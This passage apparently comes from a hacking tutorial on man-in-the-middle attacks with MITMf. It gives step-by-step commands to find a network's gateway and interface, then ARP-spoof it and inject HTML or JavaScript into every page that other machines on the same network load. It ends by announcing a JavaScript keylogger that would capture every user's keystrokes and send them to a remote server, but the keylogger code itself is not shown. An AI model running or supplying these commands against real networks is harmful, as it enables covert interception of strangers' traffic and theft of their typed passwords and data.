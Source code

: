 Once the attacking machine is connected, you will have to run the commands we provided below to inject your arbitrary code into all the machines connected in the same network then the attacking machine.

Before to move further you will need to grab your gateway address and your network interface. You can do it simply using "**ifconfig**" and "**iproute**" commands as the following examples.

**Find my interface name**

```bash
ifconfig
```

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/65e868eb3d3249c6b0d2995bbfcecb5c-2.png "Image-2")

As you can see in the above screenshot, in our case the interface name is "wlp2s0".

**Find my router gateway**

```bash
ip route
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/65e868eb3d3249c6b0d2995bbfcecb5c-3.png "Image-3")

From the above output, it is clear that 192.168.1.1 is the default gateway IP address.

**Inject HTML Code**

```bash
cd ~/
mkdir demo && cd demo
echo '<div>HTML code to inject</div>' > ~/demo/inject.html
cd /opt/mitmf/
sudo ./mitmf.py --inject --html-file ~/demo/inject.html --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Inject JS Code**

```bash
cd ~/
mkdir demo && cd demo
echo '<script type="text/javascript">alert("JS code to inject");</script>' > ~/demo/inject.js
cd /opt/mitmf/
sudo ./mitmf.py --inject --js-file ~/demo/inject.js --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Important:** If you have Apache and/or SMB installed, you will need to stop those services before to run MITMf to avoid any port conflict.

* * *

###### DEPLOY THE ATTACK

For our test, we will choose the second option, by injecting a Web-Based Keylogger in JavaScript which will be present on every page visited by each machine connected to the network. The keylogger will grab all the user's keystrokes and send them to a remote server.
